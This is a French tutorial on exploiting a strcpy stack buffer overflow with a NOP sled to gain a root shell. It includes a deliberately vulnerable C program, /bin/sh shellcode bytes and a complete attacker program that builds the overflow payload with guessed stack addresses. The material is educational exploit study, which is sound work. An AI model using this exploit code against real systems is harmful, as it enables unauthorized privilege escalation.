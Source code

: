 

#### **Théorie**

- La fonction strcpy() ne vérifie pas la taille de ce qu'elle copie ni la taille du buffer dans lequel elle le copie. On va donc pouvoir contourner ça pour modifier l'adresse de retour pour la faire pointer sur notre shellcode qui, lui, va nous donner les droits root. Par contre, on va utiliser un nop sled cette fois ci.
- Un nop c'est une instruction assembleur de base utilisée pour faire des pauses mais en gros elles ne font rien. Un nop sled c'est une partie d'un buffer ou autre qu'on va remplir avec des instructions nop.

#### **Pratique**

##### **Exploit 1**

- **Environnement**
	- L'os ne doit pas varier l'adresse de la stack. Donc l'ASLR (Address Space Layout Randomization) ne doit pas être activé.

- **Code source :**
```C
Code 
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```

- **Analyse du code source**
	- On voit que notre input (argv) est copié vers un buffer de taille max 512 bytes mais rien ne nous empêche de faire un buffer overflow.

- **Shellcode**
- `\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`

- **Exploitation**
	- On va cette fois-ci utiliser un nop sled pour avoir une plus grande marge d'erreur car si l'adresse de retour retombe sur n'importe quelles instruction nop avant le shellcode, ça va justement l'envoyer dessus. On va premièrement remplir le buffer entièrement avec l'adresse du début du buffer. Ensuite, on va remplacer la première moitié du buffer avec le nop sled. Enfin, on va foutre notre shellcode en plein milieu du buffer (d'où le buff + ((bsize/2) - (strlen(shellcode)/2));) ca va prendre en compte la moitié du buffer et la moitié du shellcode. Et enfin on rajoute un \0 pour marquer la fin d'un buffer de char.
```C
Programme attaquant pour créer le shellcode
#include <stdlib.h>
#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define NOP 0x90
char shellcode[] =
"\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46"
"\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1"
"\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";
unsigned long get_sp(void) {
	__asm__("movl %esp,%eax");
}
void main(int argc, char *argv[]){
	char *buff, *ptr;
	long *addr_ptr, addr;
	int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
	int i;
	if (argc > 1) bsize = atoi(argv[1]);
	if (argc > 2) offset = atoi(argv[2]);
	if (!(buff = malloc(bsize))) {
		printf("Can’t allocate memory.\n");
		exit(0);
	}
	addr = get_sp() - offset;
	printf("Using address: 0x%x\n", addr);
	ptr = buff;
	addr_ptr = (long *) ptr;
	for (i = 0; i < bsize; i+=4)
		*(addr_ptr++) = addr;
	for (i = 0; i < bsize/2; i++)
		buff[i] = NOP;
	ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
	for (i = 0; i < strlen(shellcode); i++)
		*(ptr++) = shellcode[i];
	buff[bsize - 1] = "\0";
	memcpy(buff,"BUF=", 4);
	putenv(buff);
	system("/bin/bash");
}
```


- 
	- Maintenant c'est exactement pareil que pour le strcpy exploit sauf que là on a beaucoup plus de combinaisons gagnantes.

